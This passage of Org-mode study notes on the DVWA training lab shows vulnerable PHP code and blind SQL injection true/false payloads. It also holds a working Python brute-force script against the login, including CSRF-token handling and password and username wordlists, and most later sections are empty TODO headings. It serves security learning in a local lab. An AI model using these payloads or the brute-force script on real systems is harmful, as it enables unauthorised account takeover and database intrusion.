    }
    else {
        // Might sleep a random amount
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }

        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
    #+end_src

*** Vulnerability
    The code to trigger the false/true condition is as follows:

    - true condition

      #+begin_example
"1' AND 1=1 -- "
      #+end_example

    - false condition

      #+begin_example
"1' AND 1=0 -- "
      #+end_example
    
*** TODO Attack
** TODO Impossible

* TODO Brute Force
** Custom - Login brute force
   The following python script can be used to brute force the official
   login of DVWA. This was showcased in the following video:

   [[https://www.youtube.com/watch?v=vvMGNbwIh_M][DVWA 02 - Attacco al login iniziale con python]]


   #+begin_src python
!/usr/bin/python3

import requests
from bs4 import BeautifulSoup

URL = "http://127.0.0.3/dvwa/login.php"

PASSWORD_WORDLIST = "./password_wordlist.txt"
USERNAME_WORDLIST = "./username_wordlist.txt"

proxies = {
    "http": "http://127.0.0.1:8080"
}

def check_credentials(username, password):    
    # -- first request to get CSRF code and cookie value
    r1 = requests.get(URL, proxies=proxies)
    
    cookie = r1.headers["Set-Cookie"].split("PHPSESSID=")[1].split(";")[0]    
    soup = BeautifulSoup(r1.text, 'html.parser')
    csrf_token = soup.find("input", {"name": "user_token"})["value"]
    
    # -- second request to check creds    
    data = f"username={username}&password={password}&Login=Login&user_token={csrf_token}"
    
    custom_headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": f"security=impossible; PHPSESSID={cookie}",
    }

    r2 = requests.post(URL, headers=custom_headers, data=data, proxies=proxies,
                       allow_redirects=False)

    # -- third request to follow redirect
    r3 = requests.get(URL, headers=custom_headers, proxies=proxies)
    
    if "Login failed" in r3.text:
        return False
    else:
        return True
    
# --------------------------
# Execution starts here

if __name__ == "__main__":
    # -- example
    # print(check_credentials("username", "password"))
    
    # -- read wordlists files
    usernames = []
    f = open(USERNAME_WORDLIST, "r")
    usernames = f.read().splitlines()
    f.close()

    passwords = []
    f = open(PASSWORD_WORDLIST, "r")
    passwords = f.read().splitlines()
    f.close()


    # -- for each user
    for user in usernames:
        # -- and for each password
        for password in passwords:
            # -- test (user, password)
            if check_credentials(user, password):
                print(f"Found credentials! ({user}:{password})")
                exit()
   #+end_src

   We can use the following wordlists

   - *password_wordlist.txt*

     #+begin_example
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
nicole
daniel
babygirl
monkey
lovely
jessica
654321
michael
ashley
qwerty
111111
iloveu
000000
michelle
tigger
sunshine
chocolate
password1
soccer
anthony
friends
butterfly
purple
angel
jordan
liverpool
justin
loveme
fuckyou
123123
football
secret
andrea
carlos
jennifer
joshua
bubbles
1234567890
superman
hannah
amanda
loveyou
pretty
basketball
andrew
angels
tweety
flower
playboy
hello
     #+end_example

   - *username_wordlist.txt*

     #+begin_example
administrator
admin
user
guest
     #+end_example
   
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible
* TODO Command Injection
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible  
* TODO CSRF
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible
* TODO File Inclusion
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible
* TODO File Upload
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible  
* TODO Insecure CAPTCHA
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible
* TODO Weak Session IDs
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible  
* TODO XSS (DOM)
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible
* TODO XSS (Reflected)
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible
* TODO XSS (Stored)
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible  
* TODO CSP Bypass
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible
* TODO JavaScript
** TODO Low  
** TODO Medium
** TODO High
** TODO Impossible  
